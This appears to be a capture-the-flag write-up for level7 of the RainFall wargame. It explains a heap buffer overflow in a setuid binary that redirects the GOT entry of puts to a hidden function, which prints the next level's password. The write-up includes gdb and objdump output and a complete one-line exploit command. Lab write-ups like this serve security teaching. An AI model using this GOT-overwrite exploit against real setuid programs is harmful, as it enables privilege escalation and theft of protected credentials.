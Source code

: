 # Level7

## Context & Explanation
 * There is one file in our home, ```level7```, belonging to ```level8``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* In the `main()` 
		* There is 4 calls to `malloc()`:
			* ![Malloc Layout](Ressources/Malloc_Dump.png)
			1. The 1st one holds value `0x1`, and the address of the 2nd malloc
			2. The 2nd one is left empty
			3. The 3rd one holds value `0x2`, and the address of the 4th malloc
			4. The 4th one is left empty
		* We got then got 2 calls to `strcpy()`
			1. One with `av[1]` as source and the adress of the 2nd malloc which is written in the 1st malloc `malloc_one[1]`
			1. One with `av[2]` as source and the adress of the 4th malloc which is written in the 3rd malloc `malloc_three[1]`
		* The the program calls `fopen()` on `/home/user/level8/.pass`
		* The program calls `fgets()` on this file and save the content in the global `c`
		* And finnaly a call to `puts()` with `"~~"` as argument.
	* The 2nd interesting function, which is never called `m()`
		* There is a call to `printf()` which display time and the content of the global `c` (the same that is filled by `fgets()` with the flag needed to access the next level)

## Exploited vulnerability

We will use a Buffer-Overflow attack on the 1st `strcpy()` to change the destination of the 2nd.
We will then change the DYNAMIC RELOCATION RECORD of `puts` so instead of calling the libc function, it will call the wanted `m()` function

For doing so we need 2 adresses, the one from Dynamic Relocation Record of `puts`
```sh
level7@RainFall:~$ objdump --dynamic-reloc level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen

```

And the adress of the `m()` function

```sh
level7@RainFall:~$ objdump -D  level7 | grep '<m>'
080484f4 <m>:
```

The last detail to think of is to reverse the adresses and check at which offset we need to write from the 1st malloc to access the 3rd one.

In gdb we can take care of looking the offset, thanks to the 0x2 value written at the begining of the 3rd malloc:

```
gdb-peda$ x/20x 0x0804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```
And we see that we will need to skip 20 octets from the starting adress of the 1st `strcpy()`.


## Resolution

```
./level7 `python -c "print('a' * 20 + '28990408'.decode('hex'))"` `python -c "print('f4840408'.decode('hex'))"`
```
